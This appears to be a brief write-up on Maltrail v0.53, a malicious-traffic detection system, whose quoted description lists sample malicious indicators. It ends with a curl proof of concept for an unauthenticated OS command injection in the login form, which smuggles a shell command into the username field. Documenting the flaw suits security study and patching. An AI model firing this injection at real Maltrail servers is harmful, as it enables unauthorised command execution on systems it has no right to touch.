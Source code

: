 ### Maltrail v0.53
> **Maltrail** is a malicious traffic detection system, utilizing publicly available (black)lists containing malicious and/or generally suspicious trails, along with static trails compiled from various AV reports and custom user defined lists, where trail can be anything from domain name (e.g. `zvpprsensinaix.com` for [Banjori](http://www.johannesbader.ch/2015/02/the-dga-of-banjori/) malware), URL (e.g. `hXXp://109.162.38.120/harsh02.exe` for known malicious [executable](https://www.virustotal.com/en/file/61f56f71b0b04b36d3ef0c14bbbc0df431290d93592d5dd6e3fffcc583ec1e12/analysis/)), IP address (e.g. `185.130.5.231` for known attacker) or HTTP User-Agent header value (e.g. `sqlmap` for automatic SQL injection and database takeover tool). Also, it uses (optional) advanced heuristic mechanisms that can help in discovery of unknown threats (e.g. new malware).

![](./IMG/12.png)
- It also has exist vulnerability - Unauthenticated OS Command Injection in stamparm/maltrail in stamparm/maltrail
- Description 
> Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process.
- Payload 
```
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```
